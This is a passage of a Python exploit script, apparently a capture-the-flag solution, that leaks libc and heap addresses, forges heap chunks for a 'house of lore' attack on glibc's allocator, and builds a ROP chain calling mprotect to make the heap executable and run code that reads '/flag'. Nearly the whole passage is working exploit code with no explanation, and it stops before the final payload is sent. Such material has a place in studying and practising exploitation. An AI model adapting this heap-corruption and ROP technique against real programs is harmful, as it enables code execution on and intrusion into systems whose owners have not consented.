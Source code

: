 ```
    libc_base = leaked_libc - 0x1e4ca0
    heap_base = leaked_heap - 0x1d60
    log.critical("libc_base --> {}".format(hex(libc_base)))
    log.critical("heap_base --> {}".format(hex(heap_base)))


    sell(1)
    #pause()
    buy_house(1, 0x8c0, "\xbb" * 0xa0 +
              p64(0) + p64(0x21) + "\xcc" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + "\xdd" * 0x90 +
              (p64(0) + p64(0xa1) + "\x11" * 0x90) * 7 +
              p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d40 - 0x10) + p64(heap_base + 0x1d60) + "\x44" * 0x80 +
              p64(0) + p64(0x21) + "\x55" * 0x10 +
              p64(0) + p64(0xa1 - 0x20) + "\x00" * (0x90 - 0x20) +
              p64(0) + p64(0xa1) + p64(heap_base + 0x1c20) + p64(libc_base + 0x1e4d40 - 0x10) + "\x66" * 0x80 +
              p64(0) + p64(0x31) + p64(heap_base + 0x40) * 4 +
              p64(0) + p64(0xa1 - 0x30) + "\x00" * (0x90 - 0x30) )

    #prepare for house of lore
    sell(2)
    sell(7)
    sell(1)

    buy_house(1, 0xb0, "\x11" * 0xb0)
    buy_house(2, 0x90, "\x22" * 0x90)
    buy_house(6, 0x217, "\x66" * 0x90)
    buy_house(4, 0x217, "\x44" * 0x90)
    sell(6)
    #set bitmap to 0x100
    buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
    sell(6)
    pause()
    #house of lore
    upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))

    libc.address = libc_base
    malloc_hook = libc.symbols["__malloc_hook"]
    mprotect = libc.symbols["mprotect"]
    leave_ret = libc_base + 0x0000000000058373
    pop_rdi_ret = libc_base + 0x0000000000026542
    pop_rsi_ret = libc_base + 0x0000000000026f9e
    pop_rdx_ret = libc_base + 0x000000000012bda6
    call_rdx = libc_base + 0x0000000000143650
    ROP_CHAIN = p64(pop_rdi_ret) + p64(heap_base) + \
                p64(pop_rsi_ret) + p64(0x4000) + \
                p64(pop_rdx_ret) + p64(7) + p64(mprotect) + \
                p64(pop_rdx_ret) + p64(heap_base + 0x1780) + p64(call_rdx)

    ROP_CHAIN = ROP_CHAIN.ljust(0x1700 - 0x16a0, "\x90")

    ROP_CHAIN += "/flag\0"

    ROP_CHAIN = ROP_CHAIN.ljust(0x1780 - 0x16a0, "\x90")

    buffer_addr = heap_base + 0x1700
    heap_addr = heap_base + 0x2000

```
